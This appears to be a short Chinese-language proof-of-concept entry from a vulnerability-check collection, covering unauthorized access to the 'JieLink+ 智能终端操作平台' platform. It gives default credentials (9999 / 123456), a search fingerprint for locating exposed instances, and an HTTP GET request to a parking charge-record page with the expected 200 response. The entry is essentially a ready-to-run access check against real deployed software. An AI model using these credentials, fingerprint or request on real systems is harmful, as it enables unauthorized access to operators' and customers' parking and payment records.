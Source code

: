 ﻿# JieLink+智能终端操作平台 未授权访问3

> 更新时间：2024-01-19

> 漏洞编号：

> 漏洞说明：账号：9999 密码：123456

> 漏洞特征：title=="JieLink+智能终端操作平台"

> 验证脚本：HTTP

```
GET /Report/ParkChargeRecord/Index HTTP/1.1
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：JieLink+智能终端操作平台 未授权访问3.poc
